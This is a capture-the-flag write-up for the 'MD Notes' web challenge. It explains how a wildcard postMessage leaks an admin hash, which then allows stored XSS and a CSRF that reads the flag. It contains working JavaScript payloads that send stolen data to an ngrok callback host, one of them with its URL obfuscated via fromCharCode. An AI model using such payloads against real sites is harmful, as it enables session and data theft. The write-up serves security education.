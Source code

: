 ```yaml
---
description: postMessage information disclosure leads to stored XSS
---
```


# MD Notes

## Challenge

**Description:** Here's a nice web application to host your notes.

**Author:** [yadhu#2142](https://twitter.com/YadhuKrishna\_)

{% file src="../../.gitbook/assets/md-notes.zip" %}
md-notes.zip
{% endfile %}

## Solution

We are given a Markdown Editor, where we can save our notes. As usual, an admin bot visits the URLs that we submit.

![](<../../.gitbook/assets/Screenshot 2021-08-16 at 4.37.36 PM.png>)

We're interested in creating an XSS payload, so let's analyse how the application processes our Markdown.

### Preview Function

Interestingly, the preview (right side) is an iframe of `/demo`.

```markup
<div class="col-md-6">
    <textarea id="input-area" class="form-control"></textarea>
</div>
<div class="col-md-6">
    <iframe id="frame-area" src="/demo" width="500" height="300"></iframe>
</div>
```

When clicking "Preview", a message is posted to the iframe. Note that the `targetOrigin` parameter is set to `http://${document.location.host}/`. This ensures that the message is only sent to the intended receiver.

```javascript
preview.onclick = function() {
  console.log("Sending Preview..")
	frame.contentWindow.postMessage(textarea.value, `http://${document.location.host}/`); 
	return false;
}
```

In `/demo`, the message is received and processed. The data is POST-ed to the `/api/filter` endpoint, and the sanitized HTML is added to `document.body.innerHTML`. 

```javascript
let area = document.getElementById("safe")

window.addEventListener("message", (event) => {
  console.log("Previewing..")
	let raw = event.data

	fetch("/api/filter", {
		method: "POST",
		credentials: "include",
		body: JSON.stringify({
			raw: raw
		})
	})
    .then(resp => resp.json())
	.then(response => {
		console.log("Filtered")
		document.body.innerHTML = response.Sanitized
		window.parent.postMessage(response, "*"); 
	}); 
}, false);
```

Interestingly, in line 18, the response from the `/api/filter` endpoint is also posted to `window.parent`, with the `targetOrigin` parameter set to `*`. This means that any site can create an iframe of `http://web.challenge.bi0s.in:5432/demo` and receive the message, regardless of its origin.

Notice that the user's cookies are sent along with the POST request. If the `/api/filter` endpoint returns any sensitive, user-specific data based on the user cookies, we would be able to read it! If we analyze the server code for this endpoint, we would know that it indeed returns the hash of the user's token in the response.

```go
func filterHandler(w http.ResponseWriter, r *http.Request) {
	reqBody, _ := ioutil.ReadAll(r.Body)
	w.Header().Set("Content-Type", "application/json")
	var unsanitized Unsanitized

	err := json.Unmarshal(reqBody, &unsanitized)

	if err != nil {
        
		log.Println("Error decoding JSON. err = %s", err)
        fmt.Fprintf(w, "Error decoding JSON.")
		
    } else {
		var cookie, isset = r.Cookie("Token") 
		
		hash, token := createToken()

		sanitized_data := markdown.ToHTML([]byte(sanitize(unsanitized.Raw)), nil, nil)

		if isset == nil {
			if cookie.Value == CONFIG.admin_token {
				hash = CONFIG.admin_hash
				token = CONFIG.admin_token
			}
		} 
		
		cookie = &http.Cookie{Name: "Token", Value: token, HttpOnly: true, Path: "/api"}
		result := Sanitized{Sanitized: string(sanitized_data), Raw: unsanitized.Raw, Hash: hash}
		http.SetCookie(w, cookie)
		json.NewEncoder(w).Encode(result)
	}
}
```

### Obtaining the Admin Hash

Now, we can craft a simple payload that loads `/demo` in an iframe, posts a message to trigger the `/api/filter` POST request in the context of the admin, and catches the response. We then make a callback to our exploit server, sending the admin's hash obtained from the response.

```markup
<script>
    function exploit(){
        document.getElementById("iframe").contentWindow.postMessage("test", "*")
    }
    
    window.addEventListener("message", (event) => {
        var img = new Image();
        img.src = "http://055c4d42189e.ngrok.io/?hash=" + event.data.Hash;
    }, false);
</script>
<iframe src="http://web.challenge.bi0s.in:5432/demo" id="iframe" onload="exploit();"></iframe>
```

We receive the admin's hash on our exploit server:

```
/?hash=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
```

However, the admin's hash is not sufficient to access the flag - we need to have access to the admin's token. This requires a CSRF to `/api/flag`, and due to the same-origin policy, we must still cause an XSS on the challenge server.

### Create Function

Now that we have the admin's hash, creating a stored XSS payload is pretty simple. Notice that in the `/api/create` handler, the data is _not_ sanitized if the admin's hash is used.

```go
if createpost.Hash != CONFIG.admin_hash {
    id , _ := uuid.NewV4()
    bucket = id.String()
    data = string(markdown.ToHTML([]byte(sanitize(data)), nil, nil))
} else {
    data = string(markdown.ToHTML([]byte(data), nil, nil))
}
```

Thus, simply sending a POST request to `/api/create` with the admin's hash allows us to create a stored XSS payload.

![](<../../.gitbook/assets/image (40).png>)

We can simply craft a CSRF payload that fetches `/api/flag` and makes a callback to our exploit server with the page contents. Note that single and double quotes are still escaped, so `fromCharCode()` is used to avoid that.

```markup
<script>
    fetch(String.fromCharCode(47, 97, 112, 105, 47, 102, 108, 97, 103))
    .then(function(response) {return response.text();})
    .then(function (text) {
        var img = new Image();
        img.src = String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 48, 53, 53, 99, 52, 100, 52, 50, 49, 56, 57, 101, 46, 110, 103, 114, 111, 107, 46, 105, 111, 47, 63, 100, 97, 116, 97, 61) + encodeURIComponent(text);
    })
</script>
```

Receiving the `/api/flag` contents:

![](<../../.gitbook/assets/image (41).png>)

URL-decode the output, and we get the flag: `inctf{8d739_csrf_is_fun_3d587ec9}`
